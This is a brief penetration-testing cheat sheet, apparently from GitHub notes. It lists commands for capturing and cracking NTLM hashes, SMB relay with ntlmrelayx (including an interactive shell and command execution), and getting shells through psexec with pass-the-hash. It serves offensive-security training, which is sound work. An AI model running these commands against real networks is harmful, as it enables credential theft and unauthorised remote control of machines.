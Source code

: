 [Inveigh Github](https://github.com/Kevin-Robertson/Inveigh)

`Inveigh can be used off of a Windows machine as a replacement for Responder`

```
.\Inveigh.exe
```

- Press "Esc" to open console
- Type "HELP" to see available actions

### Crack captured hashes from Responder with Hashcat
`hashcat -m 5600 <HASH_FILE> <PASSWORD_FILE> --force` `-m 5600` -> is for NTLMv2 hashes, check formats with --help

## SMB Relay attack

### Conditions

1. SMB Signing has to be DISABLED/NOT ENFORCED
2. Relayed hash must be admin for any real value

### Check if a host has SMB signing disabled with Nmap

```
nmap --script=smb2-security-mode.nse -p 445 <IP/CIDR>
```

### Execution

1. Turn off SMB & HTTP in /etc/responder/Responder.conf
2. `sudo ntlmrelayx.py -tf targets.txt -smb2support` -> ! try `impacket-ntlmrelayx` if not found
	1. add `-i` for an interactive shell, then `nc 127.0.0.1 11000`
	2. add `-c "<COMMAND>"` for command execution

## Gaining a shell

### Using Metasploit

- Easy to be detected in real world pentests

```
use exploit/windows/smb/psexec
```

OR

```
psexec.py <USER>@<IP_ADDRESS> -hashes <LM:NT>
```

### Using psexec.py

```
psexec.py <DOMAIN>/<USER>:'<PASSWORD>'@<IP_ADDRESS>
```
